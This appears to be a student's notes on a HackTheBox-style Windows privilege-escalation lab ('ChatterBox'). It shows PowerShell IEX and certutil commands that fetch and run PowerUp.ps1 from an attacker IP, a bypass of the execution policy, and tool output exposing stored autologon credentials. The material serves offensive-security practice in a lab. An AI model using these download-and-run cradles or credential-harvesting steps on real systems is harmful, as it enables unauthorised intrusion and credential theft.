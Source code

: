 ![](assets/ChatterBox_assets/Pasted%20image%2020230621083653.png)
- Run PowerUP.ps1 to check for privilege escalation, then we find the credentials Alfred, Welcome1!
`IEX(New-Object Net.webClient).downloadString('http://10.10.14.3/PowerUp.ps1')`
`certutil.exe -urlcache -split -f http://10.10.14.3/PowerUp.ps1 PowerUp.ps1`
- bypass execution policy with `Set-ExecutionPolicy Unrestricted` but didi't work
![](assets/ChatterBox_assets/Pasted%20image%2020230621090431.png)
- then i did `Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Unrestricted` and `Get-ExecutionPolicy` it worked
```
PS C:\Windows\Temp\Scripts> Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Unrestricted
PS C:\Windows\Temp\Scripts> Get-ExecutionPolicy
Unrestricted
PS C:\Windows\Temp\Scripts> . .\PowerUp.ps1
PS C:\Windows\Temp\Scripts> invoke-AllChecks


DefaultDomainName    : 
DefaultUserName      : Alfred
DefaultPassword      : Welcome1!
AltDefaultDomainName : 
AltDefaultUserName   : 
AltDefaultPassword   : 
Check                : Registry Autologons

UnattendPath : C:\Windows\Panther\Unattend.xml
Name         : C:\Windows\Panther\Unattend.xml
Check        : Unattended Install Files

```